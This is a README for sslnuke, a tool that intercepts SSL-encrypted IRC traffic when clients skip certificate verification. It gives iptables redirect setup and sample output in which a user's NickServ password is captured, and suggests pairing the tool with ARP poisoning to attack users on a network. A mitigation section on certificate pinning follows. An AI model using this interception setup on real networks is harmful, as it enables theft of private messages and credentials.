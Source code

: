 # sslnuke -- SSL without verification isn't secure!
--------------------------------------

We have all heard over and over that SSL without verification is not secure. 
If an SSL connection is not verified with a cached certificate, it can easily be
hijacked by any attacker. So in 2013, one would think we had totally done away with this
problem. Browsers cache certificates and very loudly warn the user when a site has
offered up a self-verified certificate and should not be trusted, browser vendors have
pretty much solved this problem. However, HTTPS is not the only protocol that uses
SSL. Unfortunately, many clients for these other protocols do not verify by default and even
if they did, there is no guarantee of secure certificate transfer. After all, how many 
people are willing to pay $50 for an SSL certificate for their FTPS server? 

A common protocol that uses SSL but is rarely verified is IRC. Many IRC clients
verify by default, but most users will turn this off because IRC servers administrators
tend not to purchase legitimate SSL certificates. Some popular clients even leave
SSL verification off by default (IRSSI, for example). We already know that this is 
unwise, any attacker between a user and the IRC server can offer an invalid
certificate and decrypt all of the user's traffic (including possibly sensitive
messages). Most users don't even consider this fact when connecting to an
SSL "secured" IRC server. 

The purpose of sslnuke is to write a tool geared towards decrypting and intercepting
"secured" IRC traffic. There are plenty of existing tools that intercept SSL traffic already,
but most of these are geared towards HTTP traffic. sslnuke targets IRC directly in order to 
demonstrate how easy it is to intercept "secured" communications. sslnuke usage is simple.

## Usage

First, add a user account for sslnuke to run as and add iptables rules to redirect traffic
to it:

    # useradd -s /bin/bash -m sslnuke
    # grep sslnuke /etc/passwd
    sslnuke:x:1000:1000::/home/sslnuke:/bin/bash
    # iptables -t nat -A OUTPUT -p tcp -m owner ! --uid-owner 1000 -m tcp \
      --dport 6697 --tcp-flags FIN,SYN,RST,ACK SYN -j REDIRECT --to-ports 4444

Finally, login as sslnuke, build, and run sslnuke:

    # su -l sslnuke
    # cd sslnuke
    # make
    # ./sslnuke

Run an IRC client and login to your favorite IRC network using SSL,
IRC messages will be printed to stdout on sslnuke.

    [*] Received connection from: 192.168.0.5:58007
    [*] Opening connection to: 1.1.1.1:6697
    [*] Connection Using SSL!
    [*] irc.com -> AUTH (1.1.1.1): *** Looking up your hostname...
    [*] irc.com -> AUTH (1.1.1.1): *** Found your hostname
    [*] irc.com -> victim (1.1.1.1): *** You are connected to irc.vps-heaven.com with TLSv1.2-AES256-GCM-SHA384-256bits
    [*] 192.168.0.5 -> nickserv (192.168.0.5): id hello
    [*] NickServ!services@irc.com -> victim (1.1.1.1): Password accepted - you are now recognized.

sslnuke will automatically detect a client using SSL and determine whether or not
to use SSL. The code could also be easily modified to show web site passwords or
FTP data, anything using SSL. To attack users on a network, sslnuke can be used
in conjunction with an ARP poisoning tool, such as the one found at [Blackhat Library](http://www.blackhatlibrary.net/Python#Scapy)
or it can be deployed on a gateway.

A video demonstration of sslnuke can be seen at [ascii.io](http://ascii.io/a/5370).

## Mitigation

Now on to the important part, how do we verify SSL connections? The first step is to
transfer the SSL certificate over an alternative medium, the best way would be to
have the administrator directly give you the certificate. However, if this is not possible,
openssl can download the certificate from the server:

    # openssl s_client -showcerts -connect irc.com:6697 </dev/null

Save the certificate into ~/.irssi/ssl/irc.com.crt. It is best to run the command from a 
computer on a different network than yours to prevent this from being intercepted. Next, to
configure IRSSI to use the certificate, save a network:

    /network add irc
    /server add -ssl_cafile ~/.irssi/ssl/irc.com.crt -network irc -port 6697 irc.com

If IRSSI ever gets an invalid certificate, it will warn you and disconnect immediately. However,
for the truly paranoid, a Tor hidden service or VPN should be used. To configure automatic
Tor hidden service redirection on Linux one can run the following commands:

    # echo "VirtualAddrNetwork 10.192.0.0/10" >> /etc/tor/torrc
    # echo "AutomapHostsOnResolve 1" >> /etc/tor/torrc
    # echo "TransPort 9040" >> /etc/tor/torrc
    # echo "DNSPort 5353" >> /etc/tor/torrc
    # killall -HUP tor
    # iptables -t nat -A OUTPUT -p tcp -d 10.192.0.0/10 -j REDIRECT --to-ports 9040
    # iptables -t nat -A OUTPUT -p udp --dport 53 -j REDIRECT --to-ports 5353
    # ncat xxxxxxxxxxxxxxx.onion 6667
    :irc.com NOTICE AUTH :*** Looking up your hostname...
    :irc.com NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead
    ^C

Ultimately, IRC clients should use an SSH-style key verification. On first connect, present the
certificate fingerprint to the user and force the user to confirm it and then cache the certificate.
If it changes the next time, do not allow the connection.

## Source

The source code can be downloaded on [Github](https://github.com/jtripper/sslnuke).

## Credit

* jtripper -- jack@jtripper.net
* [Blackhat Library](http://blackhatlibrary.net/)
* [Chokepoint](http://chokepoint.net)

